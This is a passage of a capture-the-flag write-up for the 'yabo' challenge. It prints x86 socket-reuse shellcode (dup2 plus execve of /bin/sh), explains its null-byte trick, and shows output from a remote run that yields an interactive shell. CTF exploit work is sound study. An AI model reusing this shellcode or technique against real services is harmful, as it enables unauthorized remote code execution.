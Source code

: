 ```python  
push {constants.SYS_dup2}  
pop eax  
int 0x80  
inc ecx  
push {constants.SYS_dup2}  
pop eax  
int 0x80

/* shell */

mov ebx, {'-0x' + hexlify(arg0[4:][::-1]).decode()}     # because of nulls set
a neg, then use neg, then push to stack  
neg ebx  
push ebx  
push {'0x' + hexlify(arg0[0:4][::-1]).decode()}         # rest of path  
mov ebx, esp  
xor ecx, ecx                                            # ecx = 0  
xor edx, edx                                            # edx = 0  
push {constants.SYS_execve}  
pop eax  
int 0x80  
''')  
```

> [`exploit2.py`](exploit2.py) is identical to [`exploit3.py`](exploit3.py)
> above except the three sections above (`from ...`, `arg0 = ...`, and the
> `shellcode`).

I'll just focus on the shellcode.

The shellcode has three sections (ripped off from
[shellcode-881.php](http://shell-
storm.org/shellcode/files/shellcode-881.php)):

1. This section will use `dup(2)` to get the next FD, then decrement it to figure out that FD of `4`.  I like this approach if you have the space.  No need to hardcode. (If you've read many of my write ups I try very hard to not hard code anything, but I too can get lazy).  
2. This section does that FD duplication described above in Solution 3.  
3. This section is your standard fare get a shell shellcode with `execve` however instead of hardcoding `//bin/sh` so that you're stack aligned (assuming you `xor eax, eax; push eax` first to terminate your string), I went with something computer generated using the `arg0` above.  Now if I'd just used `/bin/sh` (7 bytes) I would have had a null as the MSB (most significant byte) and that would terminate the `strcpy`.  The trick is to send the negative then `neg` in your shellcode.  And I do not need to `xor eax, eax; push eax` to terminate the string since `/bin/sh` is already terminated (it's only 7 bytes).  Is this better?  No, just, IMHO, more readable and adaptable for other challenges.

I'm not going to explain the assembly language here.  IMHO it is very readable
as is, but if you cannot read it, then google for each op code, or watch a
YouTube video on Linux assembly language.  The stuff above will take you an
hour to learn.  After that just start reading others shellcode.

Output:

```  
# ./exploit2.py REMOTE=1  
[*] '/pwd/datajerk/hacktivityctf2021/yabo/yabo'  
   Arch:     i386-32-little  
   RELRO:    No RELRO  
   Stack:    No canary found  
   NX:       NX disabled  
   PIE:      No PIE (0x8048000)  
   RWX:      Has RWX segments  
[+] Opening connection to challenge.ctf.games on port 32332: Done  
[*] len(shellcode): 54  
[*] Switching to interactive mode  
$ cat flag.txt  
```